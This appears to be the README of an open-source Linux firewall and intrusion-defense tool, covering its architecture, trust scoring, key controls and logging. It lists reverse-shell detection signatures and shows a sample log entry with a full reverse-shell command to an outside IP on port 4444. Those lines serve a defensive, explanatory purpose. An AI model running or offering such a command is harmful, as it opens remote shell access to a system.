

# 🤖 GORT Linux Firewall & Zero-Trust Sentinel — Technical Architecture & Operational Manual

> **Autonomous Linux Endpoint Network Defense, Zero-Trust Risk Scoring, Bad USB Threat Neutralization, and Google Antigravity AI Security Copilot.**  
> *Made with ❤️ in California*

---

## 1. Executive Summary

**Gort Firewall** (`gort-firewall`) is an advanced security monitoring, Zero-Trust policy enforcement, and autonomous packet filtering platform for Linux workstations, servers, and cloud endpoints. Gort stands silent guard over your system's network perimeters, bridging low-level Linux Kernel Netfilter packet filtering with a modern, non-rolling **Textual Terminal User Interface (TUI)**, continuous **Autonomous Intrusion Defense (AIDS)**, **Bad USB physical threat neutralization**, and native integration with the **Google Antigravity SDK** (`google.antigravity`) and **Google Gemini**.

### Core Value Propositions:
* **Autonomous Intruder & Bad USB Sentinel:** Continuously evaluates live flows, drops reverse shells, neutralizes Bad USB hardware injects, and pauses dropper processes via non-destructive `SIGSTOP` freezing.
* **1-Click Rollback Guarantee (`U` key):** Complete self-healing and incident rollback restoring paused processes (`SIGCONT`) and removing temporary Netfilter drops with zero collateral data loss.
* **Zero-Trust Continuous Verification:** Evaluates every network socket against dynamic Trust Scores (`0-100`), Micro-Segmentation Zones (1-5), and heuristic anomaly detectors.
* **Google Antigravity AI Security Copilot:** Embedded AI advisor translates complex technical telemetry into plain English for non-technical users (`[E]` key) and provides conversational network triage (`[A]` / `[Space]`).
* **Zero Viewport Rolling:** Eliminates terminal line-scrolling through an alternate-screen virtual scrolling engine.
* **Deep Process Telemetry:** Correlates kernel network sockets directly with process PIDs, full command line arguments, binary paths, system users, and socket inodes.
* **10-Second Transient Connection Memory:** Catches ephemeral network connections, data exfiltration bursts, and tracking beacons that open and close in milliseconds.
* **Kernel Netfilter Packet Drops:** Employs Linux `iptables` / Netfilter to drop malicious or unauthorized IP addresses with zero overhead.
* **Safe / Mock Mode:** Allows non-root users to perform live network audits without modifying kernel routing tables.

---

## 2. System Architecture & Infographic




---

## 3. Subsystem Breakdown

### 3.1 Autonomous Sentinel & Bad USB Defense (`autonomous_sentinel.py`)
Provides proactive, automated endpoint defense against remote intrusion, reverse shells, and malicious hardware injection:
* **Multi-Signal Triangulation:** Combines execution path heuristics (`/tmp`, `/dev/shm`), reverse shell signatures (`bash -i /dev/tcp`, `nc -e`, `mkfifo`), Bad USB network interface flags (`usb0`, `rndis0`), and Zero-Trust risk anomalies.
* **Immutable Core Whitelist:** Core system daemons (`systemd`, `resolved`, `sshd`, `chronyd`, `dbus-daemon`) and local endpoints can **never** be autonomously killed or blocked.
* **Graduated 4-Tier Action Ladder:**
  - `Tier 0 (< 60%)`: Silent audit trace.
  - `Tier 1 (60-79%)`: Soft alert & micro-throttle.
  - `Tier 2 (80-94%)`: Non-destructive `SIGSTOP` freeze + 15-minute TTL Netfilter drop.
  - `Tier 3 (≥ 95%)`: Autonomous neutralization (`SIGKILL` + permanent Netfilter kernel drop).
* **Self-Healing TTL Auto-Decay:** Temporary Netfilter drop rules automatically expire after 15 minutes.
* **1-Click Rollback (`sentinel.rollback_incident()`):** Pressing **`U`** sends `SIGCONT` to unfreeze the process, lifts the Netfilter drop, and records a user override.

### 3.2 Zero-Trust Security & Risk Engine (`zero_trust_engine.py`)
Gort enforces a continuous verification model across 5 Micro-Segmentation Zones:
* **ZONE 1: LOOPBACK (Intra-Host)** — Inter-process communication (`127.0.0.1`, `::1`).
* **ZONE 2: LAN_PRIVATE (Local Trust Boundary)** — Private RFC 1918 subnets (`10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`).
* **ZONE 3: TRUSTED_INFRA (Verified Infrastructure)** — Verified cloud/CDN providers (Google, AWS, Cloudflare, Fastly, Apple, Microsoft).
* **ZONE 4: PUBLIC_INTERNET (Untrusted External)** — General public internet addresses.
* **ZONE 5: HIGH_RISK (Anomalous / Suspicious)** — High-risk ports (e.g., 4444, 1337, 31337), unverified execution paths (`/tmp`, `/dev/shm`), Bad USB interfaces, and reverse-shell signatures.

#### Dynamic Trust Score (0–100) Algorithm:
* Starts at baseline `100`.
* Deducts points based on destination zone risk, missing reverse DNS, non-standard execution paths, high-risk ports, and suspicious command-line tokens.
* Maps to visual badges:
  - `🟢 TRUST: 80-100` (Safe)
  - `🟡 VERIFY: 50-79` (Unverified / Monitor)
  - `🔴 SUSPECT: 25-49` (Suspicious)
  - `🔥 THREAT: 0-24` (Critical Threat)

### 3.3 Antigravity AI Security Advisor & Copilot (`ai_advisor.py`)
* **Google Antigravity SDK Integration:** Uses `google.antigravity` and `Agent` to evaluate live network sockets with Google Gemini models.
* **Plain-English Explanations:** Translates process paths and reverse DNS into actionable explanations.
* **Conversational Copilot Dialog (`A` / `Space`):** Real-time interactive security assistant for non-technical users.
* **Offline Heuristic Engine:** Seamlessly falls back to local heuristic explanations if offline or unauthenticated.

### 3.4 Socket Harvester (`network_monitor.py`)
Directly extracts raw hexadecimal socket tables from `/proc/net/tcp`, `/proc/net/tcp6`, `/proc/net/udp`, `/proc/net/udp6`, `/proc/net/raw`, and `/proc/net/raw6`.

### 3.5 Process Correlator (`process_resolver.py`)
Traverses `/proc/<PID>/fd/` to map kernel socket inodes (`socket:[12345]`) back to userland processes, extracting binary paths, command lines, and usernames.

### 3.6 Kernel Netfilter Firewall Manager (`firewall_manager.py`)
* **Rule Generation:** Injects `iptables -I INPUT -s <IP> -j DROP` and `iptables -I OUTPUT -d <IP> -j DROP` rules.
* **Mock Isolation:** If executed without root/sudo, rules are managed in memory without calling `iptables`, allowing safe demonstration and threat audits.

### 3.7 Textual Terminal User Interface (`myfirewall2.py` / `ui_modals.py`)
* **Modular Design:** Decoupled presentation formatters (`ui_helpers.py`) and popup modals (`ui_modals.py`).
* **Hardware-Accelerated DataTable:** Renders connection rows in the terminal alternate screen buffer (`\033[?1049h`).
* **Auto-Defense Tab (`5`):** Displays all active incidents, frozen PIDs, and temporary drops.
* **Incident Rollback Modal (`U`):** 1-Click interactive restoration screen.

---

## 4. Interactive Keyboard & Mouse Controls

| Key / Control | Action | Scope |
|---|---|---|
| `↑` / `↓` / `k` / `j` | Navigate up / down connection list | Main Table |
| `PageUp` / `PageDown` | Fast scroll page up / down | Main Table |
| `Home` / `End` | Jump to top / bottom of connection list | Main Table |
| `Mouse Scroll` | Smooth scroll through active connections | Main Table |
| `E` / `e` | **Explain with AI** (Antigravity SDK & Zero-Trust Breakdown) | Global |
| `A` / `a` / `Space` | **Ask Gort Copilot** (Interactive AI Security Assistant) | Global |
| `U` / `u` | **Unfreeze / Rollback** (1-Click Restore Paused Processes & Lift Drops) | Global |
| `B` / `b` | Toggle Block on selected IP (or enter manual IP/CIDR) | Global |
| `I` / `i` | Toggle Ignore on selected process name or IP | Global |
| `/` | Focus search bar to filter live feed | Global |
| `Esc` | Clear search filter & return focus to table | Global |
| `1` | Switch to **All Connections** tab | Global |
| `2` | Switch to **Outbound Only** tab | Global |
| `3` | Switch to **Inbound Only** tab | Global |
| `4` | Switch to **Zero-Trust Alerts** tab | Global |
| `5` | Switch to **Auto-Defense Incidents** tab | Global |
| `6` | Switch to **Blocked Rules** tab | Global |
| `7` | Switch to **Ignored Rules** tab | Global |
| `R` / `r` | Reload firewall rules from disk | Global |
| `H` / `?` | Show interactive help modal | Global |
| `Q` / `Ctrl+C` | Graceful application shutdown & state save | Global |

---

## 5. Persistence & Forensic Logging

### Configuration Storage (`~/.config/myfirewall/rules.json`)
```json
{
  "blocked_ips": ["185.190.140.2", "45.142.195.10"],
  "ignored_ips": ["1.1.1.1"],
  "ignored_names": ["chrome", "code"],
  "ignored_cidrs": ["10.0.0.0/8", "192.168.0.0/16"]
}
```

### Autonomous Forensic Log (`~/.config/myfirewall/autonomous_defense.log`)
```json
{
  "incident_id": "INC-1755836100-9999",
  "timestamp": "2026-08-21T22:15:00Z",
  "confidence_score": 98,
  "action_tier": "TIER_3_NEUTRALIZE",
  "threat_type": "REVERSE_SHELL_INTRUDER",
  "process": { "name": "sh", "pid": 9999, "user": "aug20", "exe": "/bin/dash", "cmdline": "sh -i >& /dev/tcp/185.190.140.2/4444 0>&1" },
  "network": { "protocol": "TCP", "remote_ip": "185.190.140.2", "remote_port": 4444 },
  "evidence": ["NO_REVERSE_DNS", "HIGH_RISK_PORT_4444", "CRITICAL_SIGNATURE (bash -i)"],
  "actions_taken": ["PROCESS_TERMINATED (SIGKILL PID 9999)", "NETFILTER_PERMANENT_DROP (185.190.140.2)"],
  "ttl_seconds": 0,
  "rolled_back": false
}
```

---

## 6. Execution Modes & Launcher

Launch using the unified launcher script [run.sh](file:///home/aug20/myfirewall-linux/run.sh) (or `./gort.sh`):

```bash
# 1. Active Security Mode (Netfilter kernel packet enforcement + Zero-Trust + AI + Sentinel)
sudo ./run.sh

# 2. Monitor-Only Safe Mode (Unprivileged audit)
./run.sh --mock

# 3. Setup Virtual Environment & Dependencies
./run.sh --install

# 4. Run Automated Test Suite (All 6 test modules)
./run.sh --test
```

---

## 7. Quality Assurance & Automated Testing

Gort includes an automated test suite covering socket parsing, firewall rule lifecycle, event queues, Zero-Trust scoring, AI advisors, and Autonomous Sentinel interventions:

```bash
./run.sh --test
```

---

## 📜 License & Craftsmanship

* **License:** Apache License 2.0.
* **Repository:** [https://github.com/dparksports/gort-firewall](https://github.com/dparksports/gort-firewall)
* **Craftsmanship:** *Made with ❤️ in California.*
